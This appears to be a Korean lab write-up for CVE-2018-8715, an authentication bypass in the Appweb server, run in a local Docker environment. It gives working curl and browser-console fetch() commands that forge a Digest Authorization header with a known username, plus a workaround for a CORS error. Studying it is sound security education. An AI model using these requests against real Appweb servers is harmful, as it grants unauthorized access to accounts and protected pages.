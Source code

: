 # CVE-2018-8715

**Contributors**
-   [정준우(@JungJoonWoo)](https://github.com/JungJoonWoo)
<br/>

### 참고문헌
- https://vulners.com/seebug/SSV:97181
- https://github.com/cyberharsh/appweb/blob/master/README.md

### 요약
- 인증 절차의 논리적 결함으로 인해 기존 사용자의 이름을 알면 위조된 HTTP POST Request를 통해 모든 form인증과 digest 타입의 인증을 완전히 우회할 수 있음
- 비밀번호 포인터가 null이라면(즉, 비밀번호 매개변수가 전달되지 않는 다면)로직 오류로 인해 appweb이 인증이 성공했다고 반환함
<br/>

### 환경 구성 및 실행
- 모든 실습은 VMware의 Ubuntu 리눅스 환경에서 진행함
- `docker-compose up -d`를 실행하여 테스트 환경을 실행함
- `http://localhost:8080/` 에 접속하여 appweb 로그인 페이지를 확인함
  ### 실행1
  - `sudo apt install curl`을 통해 curl을 설치해 줌
  - `curl -H "Authorization: Digest username=admin" http://127.0.0.1:8080`를 통해 HTTP 헤더에 `Authorization: Digest username=admin` 패킷을 끼워 보내면 인증을 우회할 수 있다는 것을 확인
  ![](1.png)
  - `curl -H "Authorization: Digest username=admin" http://127.0.0.1:8080 -o output.html`명령어로 우회를 통해 알아낸 html파일을 로컬 파일로 추출한 뒤 로컬 환경에서 추출된 html 파일을 실행하면 정상적으로 실행됨

  ### 실행2
  - `F12`를 누른 뒤 콘솔에서 
  ```
  fetch('http://localhost:8080', {
    method: 'GET',
    headers: {
    'Authorization': 'Digest username=admin'
    }
    })
    .then(response => response.text())
    .then(data => console.log(data))
    .catch(error => console.error('Error:', error));
  ```
  코드를 입력해 헤더에 `'Authorization': 'Digest username=admin'`을 추가함
  - 하지만 CORS에 의해 에러가 발생함
  ![](3.png)
  - 이를 우회하기 위해 오류가 뜬 상태에서 아이디와 비밀번호를 아무값이나 입력하면 다음과 같이 상태는 200으로 패킷이 잘 전달 되었지만 인증은 되지 않았다는 창이 뜸
  ![](4.png)
  ![](5.png)
  - 이 상태에서 콘솔에 위 fetch코드를 다시 입력하면 local값이 잘 설정되어 있기 때문에 CORS에러가 발생하지 않음
  - 이후 개발자 도구를 끄고 `F5`를 눌러 새로고침하면 우회된 것을 확인할 수 있음
<br/>

### 결과1
![](2.png)
### 결과2
![](6.png)
<br/>

### 정리
- 7.0.3버전부터 취약점이 패치됨
- id를 무작위로 대입할 시 수많은 계정이 유출될 가능성이 있기 때문에 매우 위험한 취약점임